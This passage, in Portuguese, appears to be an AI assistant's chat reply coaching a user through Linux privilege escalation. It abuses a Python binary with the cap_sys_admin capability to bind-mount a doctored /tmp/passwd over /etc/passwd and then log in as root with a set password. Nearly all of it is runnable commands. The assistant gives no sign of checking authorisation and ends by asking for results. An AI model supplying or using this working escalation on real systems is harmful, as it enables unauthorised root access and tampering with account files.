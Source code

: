 ### 🔹 4. Crie o exploit para montar `/tmp/passwd` sobre `/etc/passwd`

```bash
echo 'import ctypes; ctypes.CDLL("libc.so.6").mount("/tmp/passwd", "/etc/passwd", None, 4096, None)' > /tmp/exploit.py
```

⚠️ `4096` é a flag `MS_BIND`, como indicado no HackTricks.

---

### 🔹 5. Execute com o Python que tem a capability

```bash
/usr/bin/python2.7 /tmp/exploit.py
```

---

### 🔹 6. Teste o login como root

```bash
su root
```

Senha:

```
vert16xx
```

Se funcionar, você é root de verdade.

---

## 🧠 Por que agora deve funcionar?

- Você **realmente alterou a linha do root** com `sed`, em vez de criar do zero
    
- Usou **mount bind** com a flag `4096`, como no HackTricks
    
- E executou o Python certo (`/usr/bin/python2.7`) com `cap_sys_admin+ep`
    

---

Me manda o resultado de:

```bash
head -n 1 /tmp/passwd
```

E depois se o `su root` funcionou. Estamos muito perto — agora 100% em linha com o PDF e HackTricks. 👊